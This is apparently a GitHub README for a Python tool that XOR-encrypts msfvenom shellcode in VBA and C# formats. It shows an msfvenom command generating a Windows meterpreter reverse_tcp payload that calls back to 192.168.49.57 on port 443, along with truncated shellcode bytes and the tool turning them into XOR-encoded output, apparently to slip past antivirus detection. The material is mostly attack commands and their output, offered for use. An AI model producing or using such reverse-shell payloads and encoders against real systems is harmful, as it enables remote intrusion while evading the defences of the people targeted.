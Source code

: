 # XOR_Payload_encryption
This project is ment to be use as an encryptor shellcode produced by msfvenom for :

"-f vbapplication" 
"-f csharp"




it does automatically detect the payload format.


➜  ~ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.57 LPORT=443 EXITFUNC=thread -f vbapplication <br/>

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload<br/>
[-] No arch selected, selecting arch: x86 from the payload<br/>
No encoder specified, outputting raw payload<br/>
Payload size: 375 bytes<br/>
Final size of vbapplication file: 1302 bytes
buf = Array(252,232,143,0,0,0,96,13.....<br/>



Then you run :<br/>

python3 xorcharp.py 'buf = Array(252,232,143,0,0,0,96,137,229,49,210,100,139,82,48,139   <br/>
<br/>
<br/>
<br/>
<br/>


Counter:  379
Key:  0xdb
Key:  219
buf =  Array(39, 51, 84, 219, 219, 219, 187, 82, 62



